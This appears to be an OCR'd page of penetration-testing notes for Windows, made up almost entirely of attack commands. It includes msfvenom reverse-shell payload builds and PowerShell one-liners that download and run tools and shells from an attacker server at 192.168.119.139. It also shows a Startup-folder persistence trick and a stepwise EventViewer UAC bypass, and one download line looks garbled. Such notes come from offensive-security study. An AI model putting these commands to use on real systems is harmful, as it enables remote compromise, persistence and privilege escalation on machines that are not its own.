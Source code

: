 ```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f exe -o ok.exe

```

- > Exploitation - Windows

```
iex (iwr http://<file_server_IP>/PowerView.ps1 -Outfile ok.exe)
move ok.exe “C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup”
logoff

```

### Bypass UAC

### EventViewer

- > Step 1 - Kali

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> EXITFUNC=thread -f exe > ok.exe

```

- > Step 2 - Win Owned

```
cd C:\\Windows\\tasks
iwr -uri 192.168.119.139:805/shell.exe -Outfile shell.exe
Start-Process -NoNewWindow -FilePath C:\\Windows\\Tasks\\shell.exe

```

- > Step 3 - Win Owned

```
iwr -uri 192.168.119.139:805/powerup.ps1 -Outfile powerup.ps1
powershell -ep bypass
. .\\PowerUp.ps1
Invoke-AllChecks

```

`[+] Run a BypassUAC attack to elevate privileges to admin.`

- > Step 4 -Kali

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.139 LPORT=8445 -f exe > ok.exe

```

- > Step 5 - Win Owned

```
wget 192.168.119.139:805/Invoke-EventViewer.ps1 -O Invoke-EventViewer.ps1
. .\\Invoke-EventViewer.ps1
Invoke-EventViewer cmd.exe /c "C:\\Windows\\tasks\\shell2.exe"
Invoke-EventViewer C:\\Windows\\tasks\\shell2.exe

```
